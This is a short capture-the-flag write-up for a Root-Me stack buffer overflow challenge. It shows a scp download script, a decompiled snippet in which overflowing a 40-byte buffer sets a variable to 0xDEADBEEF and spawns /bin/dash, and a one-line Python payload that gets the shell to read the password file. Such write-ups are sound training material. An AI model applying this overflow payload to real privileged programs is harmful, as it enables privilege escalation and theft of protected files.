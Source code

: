 ### Solved by Hayicle

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .

```c
 char buffer[40];		#overflow the buffer
 int v5 = 0x4030201;		#then we can control v5
 fgets((char *)&v4, 45, stdin);
 ....

 ....
 if ( v5 == 0xDEADBEEF )	#if we can overflow v5 become 0xdeadbeef we				   can run /bin/dash with permission of file
  {
    puts("Yeah dude ! You win !");
    system("/bin/dash");
  }
```

This is how we understand the code .Now we get the idea.
Let write python script to control this.
```python
(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./ch13
```

Now we have permission to cat file .passwd!
